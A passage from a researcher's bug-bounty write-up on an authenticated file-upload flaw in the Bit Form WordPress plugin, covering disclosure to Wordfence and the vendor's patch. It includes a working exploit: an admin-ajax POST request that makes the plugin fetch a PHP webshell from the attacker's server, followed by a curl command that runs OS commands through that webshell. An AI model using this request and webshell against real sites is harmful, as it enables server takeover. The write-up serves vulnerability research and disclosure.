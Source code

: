 Then, send a POST request to `/wp-admin/admin-ajax.php` with GET parameter `action`, `_ajax_nonce`, and JSON object attribute `src` that points to our HTTP server:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icn_save_setting&_ajax_nonce=5bb5d043b8 HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724412605%7CrwbMC64aqDEgN54rhgVKKkWAMiTmYSeFVF3Krk8UlPK%7C74a392fa0d19e2134f69822e321e4ce34145356de815964c65020c6715df5d13; wp-settings-time-1=1724241516; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724412605%7CrwbMC64aqDEgN54rhgVKKkWAMiTmYSeFVF3Krk8UlPK%7C392d7068610920f89b32627fd8b31d70e308941a8f8c15ed2a6d9aff0923c958
Content-Type: text/plain;charset=UTF-8
Content-Length: 46

{"src":"http://10.69.96.69:8000/webshell.php"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240821205417.png)

Finally, we should be able to execute OS commands in our uploaded PHP webshell file!

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:51:09(HKT)]
└> curl --get http://localhost/wp-content/uploads/bitforms/icons/webshell.php --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice!!

Unfortunately, this vulnerability is out-of-scope, as **it requires administrator+ privilege** to exploit it. I tried to find all possible ways to exploit it in an unauthenticated/low privilege users, but no luck. After writing the Proof-of-Concept script, I reported this vulnerability to Wordfence in July 3rd, 2024 at 5:22 PM (UTC+8).

After 6 hours of reporting, I was notified by Wordfence that this vulnerability had been found by researcher István Márton and treated this report as duplicate. Ah, darn it! Let's move on and keep finding even more vulnerabilities!

### The Patch

To fix this vulnerability is very straight forward. Just validate the remote fetched resource's extension is an image and MIME type is `image/.*`.

Based on the version 2.13.4 [revision log](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3114814%40bit-form%2Ftrunk%2Fincludes%2FAdmin%2FAdminAjax.php&old=3109667%40bit-form%2Ftrunk%2Fincludes%2FAdmin%2FAdminAjax.php&sfp_email=&sfph_mail=), we can see now the method is **validating the extension and MIME type** of the remote resource via WordPress function `wp_check_filetype`:

```php
class AdminAjax
{
  [...]
  public function iconUpload()
  {
    [...]
    $validation = wp_check_filetype($filename);
    $type = $validation['type'];

    if ($type && 0 === strpos($type, 'image/')) {
      $uploaded = file_put_contents($icnDir . '/' . $filename, $imageUrlData);
      [...]
    } else {
      [...]
    }
```
